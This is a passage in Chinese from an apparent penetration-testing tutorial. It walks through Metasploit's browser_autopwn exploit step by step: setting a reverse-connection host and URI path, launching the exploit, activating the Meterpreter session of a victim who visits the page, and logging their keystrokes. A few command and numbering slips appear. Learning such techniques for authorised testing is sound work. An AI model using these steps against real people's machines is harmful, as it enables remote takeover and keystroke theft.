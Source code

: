 6.  显示可用于该载荷类型的选项。

    ```
    show options
    ```
    
7.  设置反向连接所使用的 IP。这里，该 PC 的 IP 地址为` 192.168.10.109`。

    ```
    set LHOST 192.168.10.109
    ```
    
8.  下面，我们打算设置 URIPATH，这里我们使用`"filetypes"`（带引号）：

    ```
    set URIPATH "filetypes" 
    ```
    
9.  最后，我们执行漏洞利用：

    ```
    exploit
    ```
    
0.  Metasploit 会在 IP 地址 <http://[Provided IP Address]:8080> 处执行漏洞利用。

1.  当访问者访问这个地址时，`browser_autopwn`模块尝试连接用户的机器来建立远程会话。如果成功的话，Meterpreter 会确认这个会话。使用会话命令来激活它：

    ```
    session –I 1
    ```
    
2.  为了显示我们可以使用的 Meterpreter 命令列表，输入`help`。

    ```
    help
    ```
    
3.  会显示可用命令的列表。这里，我们启动击键顺序扫描：

    ```
    keyscan_start 
    ```
    
4.  为了得到受害者机器上的击键顺序，我们键入`keyscan_start`命令：

    ```
    keyscan_dump
    ```
    
### 工作原理

这个秘籍中，我们使用 Metasploit 的 MSFCONSOLE 来执行 browser_autopwn 漏洞利用。我们以启动控制台并搜索所有已知的`autopwn`模块开始。在喧嚣`autopwn`模块之后，我们将载荷设置为`windows_reverse_tcp`。这允许我们在利用成功时得到返回的链接。一旦受害者访问了我们的网页，漏洞利用就成功了，我们就能得到 Meterpreter 活动会话。


# 第七章：权限提升

